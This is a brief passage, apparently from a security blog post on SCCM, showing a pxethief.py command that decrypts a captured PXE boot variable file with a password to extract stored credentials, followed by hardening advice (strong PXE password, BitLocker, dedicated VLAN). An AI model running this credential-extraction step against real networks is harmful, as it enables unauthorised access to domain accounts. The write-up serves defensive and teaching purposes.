 ```powershell
py.exe pxethief.py 3 ".\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var" hello
```

![pxe_creds_with_password.png](/assets/blog/SCCM/pxe_creds_with_password.png)

> How to Secure this ?
> - use a strong password for pxe
> - do not use default administrator creds on image creation
> - enable bitlocker on pxe options
> - consider using a dedicated vlan for pxe boot
{: .prompt-tip }

